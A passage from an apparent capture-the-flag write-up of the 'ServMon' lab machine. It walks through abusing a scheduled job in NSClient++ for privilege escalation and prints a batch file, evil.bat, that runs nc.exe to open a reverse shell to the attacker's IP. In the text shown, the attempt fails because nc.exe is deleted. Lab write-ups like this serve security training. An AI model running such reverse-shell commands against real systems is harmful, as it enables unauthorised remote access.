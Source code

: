 The changes tab at the top will also be hilighted in red letting you know there are changes that need to be implemented and you'll need to click the save configuration option to implement everything you just did.

The exploit mentions that you need to restart the computer in order for it to work, but that doesn't actually need to be done. Click the control tab in the top right and choose the reload option and then wait a couple minutes for it to finish.

Once that's done go over to the queries tab and if everything was successful you should see the scheduled job show up:

![](images/servmon15.png)

Then setup a listener on your kali box and upload evil.bat and nc.exe to c:\windows\tasks on the target system. Make sure you edit the evil.bat with whatever directory nc.exe is in. Mine looked like this:

```
@echo off
c:\windows\tasks\nc.exe 10.10.14.90 443 -e cmd.exe
```

I waited a couple minutes and never got a hit back on my listener so something wasn't working correctly.

Navigating to the queries tab and then opening up my scheduled job I noticed there was a run tab so I tried to manually run it and got an error message back in the warning section saying that it was blocked.

When looking on the system it also deleted nc.exe from the directory, so that explains why it didn't work.

![](images/servmon16.png)
